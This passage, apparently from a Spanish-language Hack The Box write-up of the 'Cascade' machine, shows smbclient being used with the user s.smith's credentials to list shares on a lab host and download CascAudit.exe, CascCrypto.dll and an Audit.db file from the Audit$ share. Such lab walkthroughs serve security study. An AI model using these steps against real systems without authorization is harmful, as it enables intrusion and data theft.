 Volvemos a revisar el protocolo SMB y miramos a qué directorios, el usuario `s.smith` tiene acceso

```
┌──[root@parrot]─[/home/nicolasmira101]
└──╼ #smbclient -U s.smith -L \\\\10.10.10.182\\

Enter WORKGROUP\s.smith's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Con `smbclient` accedemos a los recursos compartidos en el servidor SMB en el directorio `Audit` y descargamos los archivos que encontramos en este directorio, a nuestra máquina

```console
┌──[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Cascade]
└──╼ $sudo smbclient -U s.smith \\\\10.10.10.182\\Audit$                                                                               
[sudo] password for nicolasmira101: 
Enter WORKGROUP\s.smith's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                       A    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                      A    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 01:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 01:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020

smb: \> mget CascAudit.exe                                    
Get file CascAudit.exe? y                     
getting file \CascAudit.exe of size 13312 as CascAudit.exe (24.4 KiloBytes/sec) (average 24.4 KiloBytes/sec)  

smb: \> mget CascCrypto.dll 
Get file CascCrypto.dll? yes
getting file \CascCrypto.dll of size 12288 as CascCrypto.dll (21.7 KiloBytes/sec) (average 21.7 KiloBytes/sec)

smb: \> cd DB                        
smb: \DB\> ls                                         
  .                                   D        0  Tue Jan 28 16:40:59 2020
  ..                                  D        0  Tue Jan 28 16:40:59 2020
  Audit.db                            A    24576  Tue Jan 28 16:39:24 2020
  
smb: \DB\> mget Audit.db                 
Get file Audit.db? yes                  
getting file \DB\Audit.db of size 24576 as Audit.db (49.8 KiloBytes/sec) (average 36.5 KiloBytes/sec)                                  
```
